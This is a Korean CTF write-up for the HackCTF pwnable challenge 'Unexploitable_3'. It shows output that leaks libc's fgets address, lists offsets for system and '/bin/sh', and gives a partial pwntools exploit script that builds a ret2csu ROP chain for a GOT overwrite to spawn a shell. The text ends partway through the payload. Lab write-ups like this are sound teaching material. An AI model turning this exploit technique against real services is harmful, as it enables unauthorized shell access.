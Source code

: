 `fgets()`의 주소는 다음과 같다.
<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/35.Unexploitable_3$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3034: Done
[*] fgets_address is 0x7f68e4a79ad0
[*] Switching to interactive mode
Impossible RTL ha? Nothing for you!
$ hi
[*] Got EOF while reading in interactive
</pre>

이 주소를 이용하여 온라인 사이트에서 `system()`의 offset과 "/bin/sh"의 offset과 `fgets()`의 offset을 구할 수 있었다.

**system\_offset=0x45390 <br>
fgets\_offset=0x6dad0 <br>
binsh\_offset=0x18cd57**

이제 이 정보들을 통해서 `system()`의 주소와 "/bin/sh"의 주소를 알았기 때문에 got overwrite를 통해서 system(/bin/sh)를 실행할 것이다.

익스플로잇 코드는 다음과 같다.

<pre>
from pwn import*

#p=process('./Unexploitable_3')
p=remote('ctf.j0n9hyun.xyz',3034)
#gdb.attach(p)


main=0x40065f
mov_rcx_ret=0x400658
pop_rdi_ret=0x400743
libc_csu_init_down=0x40073a
libc_csu_init_up=0x400720
stdout_got=0x601050
fwrite_got=0x601030
fgets_got=0x601020
system_offset=0x45390
fgets_offset=0x6dad0
binsh_offset=0x18cd57

p.recvline()

payload='A'*24
payload+=p64(pop_rdi_ret)
payload+=p64(stdout_got)
payload+=p64(mov_rcx_ret)
payload+=p64(libc_csu_init_down)
payload+=p64(0)          #rbx=0
payload+=p64(1)          #rbp=rbx
payload+=p64(fwrite_got) #r12=call
payload+=p64(6)          #r13=rdx
payload+=p64(1)          #r14=rsi
payload+=p64(fgets_got)  #r15=rdi
payload+=p64(libc_csu_init_up)
payload+=p64(0)*7
payload+=p64(main)
